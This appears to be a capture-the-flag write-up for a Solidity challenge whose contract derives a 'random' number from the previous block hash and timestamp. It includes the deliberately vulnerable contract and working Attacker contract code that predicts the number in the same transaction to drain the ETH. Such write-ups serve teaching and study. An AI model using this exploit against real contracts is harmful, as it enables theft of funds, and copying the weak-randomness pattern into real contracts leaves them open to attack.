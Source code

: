 # Guess the new number

```
pragma solidity ^0.4.21;

contract GuessTheNewNumberChallenge {
    function GuessTheNewNumberChallenge() public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function guess(uint8 n) public payable {
        require(msg.value == 1 ether);
        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now));

        if (n == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}
```
## Goal

Guess the number to win and get all the ETH from the smart contract

## Exploit

In order to finish this CTF we will have to use another smart contract. We can name this contract Attacker.

From the contract we see that the answer is calulated in the following way:

```
  uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), 
```

Because of the atomic nature of ethereum tranactions (they all happen at once, at the same block), we can create Attacker contract, and calculate the answer using the above formula and call the guess(uint8 n) function of the  GuessTheNewNumberChallenge contract from within the Attacker contract.

The steps to reproduce the exploit would be:

1. create Attacker contract, and create instance from the GuessTheNewNumberChallenge contract inside the Attacker contract, send ETH to the contract on deployment, we need this ETH to be able to guess later
2. create guessTheNumber() external function inside Attacker, and inside of it
  <ul>
  <li>calculate the guessing number using uint8(keccak256(block.blockhash(block.number - 1), now))</li>
  <li>call guess() function inside GuessTheNewNumberChallenge contract, with the number calculated above as argument, and the balance of the Attacker contract as value</li>
  </ul>
  
3. call guessTheNumber() function from our account

## Attacker contract code

```
contract Attacker {
  GuessTheNewNumberChallenge private guessContract;

  function Attacker(address _guessContract) public payable {
    guessContract = GuessTheNewNumberChallenge(_guessContract);
  }

  function guessTheNumber() external {
    uint8 number = uint8(keccak256(block.blockhash(block.number - 1), now));
    guessContract.guess.value(address(this).balance)(number);
  }
}
```